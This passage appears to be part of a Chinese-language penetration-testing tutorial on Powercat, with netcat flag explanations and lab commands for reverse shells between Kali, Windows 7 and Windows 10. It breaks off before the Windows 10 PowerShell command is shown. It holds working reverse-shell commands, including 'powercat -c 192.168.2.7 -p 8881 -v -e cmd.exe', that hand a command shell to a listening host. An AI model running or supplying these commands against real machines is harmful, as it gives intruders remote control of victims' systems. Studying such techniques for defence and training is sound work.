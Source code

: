 ![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tTCOlz0iaOJahRPC3FT3DWwrCibiaxGRmNqof38fyDIgbzjBzVGXxDnhxA/640?wx_fmt=png)

  

```
-l：监听模式，用于入站连接

```

```
-p：指定监听端口

```

```
-e：指定要启动的进程名称

```

```
-v：显示详情

```

（3）通过 nc 反向连接 Powercat

在 Kali 中执行如下命令：

```
netcat -l -p 8881 -vv

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tQZlhB7z8icvrehjxVIc7RyzVgpWdaoibM1YMUXxOiaicTfyIgwkoZ3VOoA/640?wx_fmt=png)

  

然后在 Windows7 中执行如下命令，-c 参数用于提供想要连接的 IP 地址：

```
powercat -c 192.168.2.7 -p 8881 -v -e cmd.exe

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tiboPGI0PSic1IwpGL8nbL8EvplUiaOiaTTkZUJRprjnWPsgVz0lyG8gYMw/640?wx_fmt=png)

  

（4）通过 Powercat 返回 Powershell

在 Win7 上 运行 powercat，监听 4444 端口（先监听后反弹，属于反向 shell）

```
powercat -l -p 4444 -v

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tpp7NMmiakhRaia0EMcFwc9YibEevrLst8A2KbxXthVpXTEDbuibQYlPxpQ/640?wx_fmt=png)

  

在 Win10 上运行 powercat，反弹一个 powershell：（-ep 用于返回 powershell）
